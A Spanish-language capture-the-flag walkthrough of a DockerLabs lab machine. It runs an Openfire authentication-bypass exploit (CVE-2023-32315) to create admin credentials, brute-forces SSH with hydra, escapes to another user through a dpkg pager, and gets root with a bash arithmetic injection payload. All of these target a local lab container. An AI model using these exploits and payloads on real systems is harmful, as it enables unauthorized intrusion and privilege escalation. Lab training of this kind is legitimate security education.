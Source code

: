 # Maquina Trust - DockerLabs

* Nivel : Medio
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina : 172.17.0.2

## Escaneo de puertos

```bash
sudo nmap -A -sV -O -T4 -p- -Pn 172.18.0.2
```

El escaneo me da varios puertos abiertos, me dice que esta usando un protocolo de XMPP, Openfire 3.10.0. Uno de los puertos el 9090 es un login.

## Puerto 9090

Aparece un login de openfire. Buscare algún exploit para su verisón.

En github he encontrado el siguiente exploit : https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT/blob/main/CVE-2023-32315.py, que da el user y el password para acceder al openfire login.

```bash
python3 CVE-2023-32315.py -u http://172.17.0.2:9090

 ██████ ██    ██ ███████       ██████   ██████  ██████  ██████        ██████  ██████  ██████   ██ ███████
██      ██    ██ ██                 ██ ██  ████      ██      ██            ██      ██      ██ ███ ██     
██      ██    ██ █████   █████  █████  ██ ██ ██  █████   █████  █████  █████   █████   █████   ██ ███████
██       ██  ██  ██            ██      ████  ██ ██           ██            ██ ██           ██  ██      ██
 ██████   ████   ███████       ███████  ██████  ███████ ██████        ██████  ███████ ██████   ██ ███████

Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Launching exploit against: http://172.17.0.2:9090
[*] Checking if the target is vulnerable
[+] Target is vulnerable
[*] Adding credentials
[+] Successfully added, here are the credentials
[+] Username: hugme
[+] Password: HugmeNOW

```
![Imagen Panel](../img/chocholate.PNG) 

Una vez dentro ir a users y buscar algun posible user o password para acceder por ssh. Probare chocolatitochingon con hydra por si encuentra su password.

```bash
hydra -l chocolatitochingon -P /usr/share/wordlists/rockyou.txt -t 4 172.17.0.2 ssh
DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: chocolatitochingon   password: chocolate
1 of 1 target successfully completed, 1 valid password found

```
Ha encontrado el password.

## Esclar privilegios

Una vez dentro del ssh, he probado de hacer sudo -l y puedo ejecutar el dpkg con root con el user pinguinacio sin password.

```bash
chocolatitochingon@2df46c2e630d:~$ sudo -l
Matching Defaults entries for chocolatitochingon on 2df46c2e630d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User chocolatitochingon may run the following commands on 2df46c2e630d:
    (pinguinacio) NOPASSWD: /usr/bin/dpkg
```
He ejecutado el archivo pero necesita algo más. He buscado en GTFobins y he encontrado :

```bash
chocolatitochingon@2df46c2e630d:/usr/bin$ sudo -u pinguinacio /usr/bin/dpkg -l
Después escribir : !/bin/sh
```
Y ya escalas a pinguinancio.

Y vuelvo a hacer sudo -l

```bash
sudo -l
Matching Defaults entries for pinguinacio on 2df46c2e630d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinguinacio may run the following commands on 2df46c2e630d:
    (ALL) NOPASSWD: /bin/bash /home/pinguinacio/script.sh

```
He entrado a la ruta, he visto que no tiene privilegios para modificar el archivo, he leido el programa y he buscado alguna vulnerabilidad con el operador -eq.
```bash
sudo /bin/bash /home/pinguinacio/script.sh
```
Y contestar :

```bash
a[$(/bin/bash >&2)]+42

```
Y escalas a root. 

El por que : El operador -eq intenta convertir ambos lados en números. Si le das algo que no es un número puro, Bash lo interpretará como una expresión aritmética y tratará de evaluarlo.
